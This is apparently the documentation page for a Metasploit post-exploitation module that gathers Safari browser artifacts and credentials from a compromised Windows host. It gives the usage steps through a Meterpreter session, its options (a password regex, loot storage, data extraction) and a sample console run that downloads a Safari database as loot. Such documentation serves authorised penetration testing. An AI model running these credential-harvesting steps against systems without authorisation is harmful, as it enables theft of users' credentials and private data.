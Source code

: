 ## Module Description

This post-exploitation module gathers artifacts found on safari related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/safari
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/safari) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Safari's parent folder found
[*] Safari's parent folder found
[*] Safari's Webpageicons.db file found
[*] Downloading C:\Users\IEUser\AppData\Local\Apple Computer\Safari\WebpageIcons.db
[*] Safari Webpageicons.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513132035_default_192.168.56.106_safariWebpageIco_644838.db

[+] File with credentials saved:  /root/.msf4/loot/20210513132035_default_192.168.56.106_EXTRACTIONSWebpa_544464.db
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
 